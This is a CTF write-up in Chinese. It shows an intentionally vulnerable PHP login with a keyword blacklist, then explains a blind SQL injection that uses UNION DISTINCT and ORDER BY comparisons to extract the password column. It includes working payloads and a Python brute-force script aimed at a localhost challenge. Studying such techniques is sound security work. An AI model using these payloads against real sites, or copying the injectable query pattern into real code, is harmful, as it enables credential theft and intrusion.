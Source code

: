 ```yaml
---
title: 基于union查询的盲注(感谢pcat牛不吝赐教)
url: 547.html
id: 547
categories:
  - hack_ctf
date: 2017-02-26 18:19:09
tags:
  - ctf
  - sql inject
---
```




### 代码如下:

<!--more-->

```php
<?php
  $dbhost = "localhost";
  $dbuser = "root";
  $dbpass = "123456";
  $db = "ctf";
  $conn = mysqli_connect($dbhost,$dbuser,$dbpass,$db);
  mysqli_set_charset($conn,"utf8");

  /* sql

     create  table `admin` (
        `id` int(10) not null primary key auto_increment,
        `username` varchar(20) not null ,
        `password` varchar(32) not null
     );
  */
function   filter($str){
      $filterlist = "/\(|\)|username|password|where|
      case|when|like|regexp|into|limit|=|for|;/";
      if(preg_match($filterlist,strtolower($str))){
        die("illegal input!");
      }
      return $str;
  }
$username = isset($_POST['username'])?
filter($_POST['username']):die("please input username!");
$password = isset($_POST['password'])?
filter($_POST['password']):die("please input password!");
$sql = "select * from admin where  username =
 '$username' and password = '$password' ";

$res = $conn -> query($sql);
if($res->num_rows>0){
  $row = $res -> fetch_assoc();
  if($row['id']){
     echo $row['username'];
  }
}else{
   echo "The content in the password column is the flag!";
}

?>
```
题目说 password的字段的值,就是flag.那就要想办法读取password的内容

但是题目的过滤规则还是比较坑的:
```php
$filterlist = "/\(|\)|username|password|where|
case|when|like|regexp|into|limit|=|for|;/";
```
这些字符都不能出现,限制的比较坑的有一下两条:
1. 没有了括号,标志着没有办法用mysql里的函数了.
2. 没有了password,但是它却是字段名,所以sql语句中不能出现password这个列名

想搞明白,先看下面两个sql语句
![http://pic.wonderkun.cc/uploads/2017/02/1.png](http://pic.wonderkun.cc/uploads/2017/02/1.png)
mysql的字符串排序操作是从前往后一一用ascii码比对的.我们可以利用这个特性,来进行注入.
```sql
select * from ctf.admin  where username = 'admin'  union
distinct  select 1,2,0x38 order by 3 desc ;
```
我们可以控制后面的那个查询的第三个字段,让他从最小开始变化,当查询结果第一条返回的username字段是2的时候,我们就知道这个字符的ascii码减一就是跟数据库中的相等.所以就可以一位一位的猜出来password字段了.

但是在操作之前,我们需要先得到数据库中的用户名,这个简单
```
只需要提交: username='^1^1#&password=1
```
就可以看到一个用户名了.
python的poc如下
```python
#!/usr/bin/python
# coding:utf-8

import requests

def makeStr(begin,end):
    str=""
    for i in range(begin,end):
        str+=chr(i)
    return str
def getPassword():
    url="http://127.0.0.1/web200/index.php"
    testStr = makeStr(48,127)
    username = "admin' union distinct select 1,2,0x{hex} order by 3 desc#"
    flag = ""
    for  _  in range(32):
        for i in testStr:
            data = {"username":username.format(hex=(flag+i).encode('hex')),"password":'1'}
            res = requests.post(url,data)
            if "admin" not in res.text:
                flag= flag+chr(ord(i)-1)
                print flag
                break
            else:
                print "[*]",i

if __name__== '__main__':
    getPassword()
```
但是这里有个bug,因为mysql不区分大小写,他认为 D与d相等的,所以最后跑出来的,全是大写的:
![http://pic.wonderkun.cc/uploads/2017/02/2.png](http://pic.wonderkun.cc/uploads/2017/02/2.png)

发现一种可以区分大小写的方法,利用binary：
```sql
select  'ab'  union select binary 'Ab' order by 1 ;
```
在后面加上binary，这样就区分大小写了。
```
+----+
| ab |
+----+
| Ab |
| ab |
+----+
```
binary用例：
```
select username form table where binary username like '%admin%';
```
那么大写的Admin就不会被查询出来。